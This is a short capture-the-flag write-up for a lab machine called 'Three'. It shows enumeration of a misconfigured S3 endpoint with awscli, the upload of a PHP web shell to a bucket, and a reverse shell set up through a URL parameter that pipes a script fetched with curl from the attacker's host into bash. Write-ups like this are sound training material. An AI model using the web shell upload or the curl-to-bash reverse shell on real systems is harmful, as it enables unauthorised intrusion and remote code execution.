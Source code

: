 # Three

## Enumeration 

![](../Images/Pasted%20image%2020240527183432.png)

from the above results we can see there is a web page open and in that page we see a listing for an email: 

![](../Images/Pasted%20image%2020240527183544.png)

lets add the email to our hosts file: 

![](../Images/Pasted%20image%2020240527183626.png)

we get a 404 if we enumerate vhosts for `*.thetoppers.htb` and look for `s3`, lets add that to the vhosts as well: 

![](../Images/Pasted%20image%2020240527184432.png)

now we can see the response when we visit the url: 

![](../Images/Pasted%20image%2020240527184450.png)

using the `awscli` package for linux we can interact with this and look for all the buckets hosted by the server: 

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

we can also do the same to look for objects and common prefixes under the specified bucket: 

![](../Images/Pasted%20image%2020240527184740.png)

aws also lets you upload files to this bucket, so lets first create a PHP web shell: 

![](../Images/Pasted%20image%2020240527184855.png)

using `cp` we can upload our shell to the discovered bucket: 

![](../Images/Pasted%20image%2020240527184946.png)

then we can navigate to our uploaded shell and run our commands: 

![](../Images/Pasted%20image%2020240527185024.png)

to instead create a reverse shell we can create a bash shell: 

![](../Images/Pasted%20image%2020240527185222.png)

then start a netcat listener on the specified port with `nc -nlvp 1337`, and start a python server with `python -m http.server 8000`

with this setup we can then use the LFI vulnerable parameter to call a `curl` command to our hosted bash shell: 

```
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.92:8000/shell.sh|bash
```

![](../Images/Pasted%20image%2020240527191945.png)

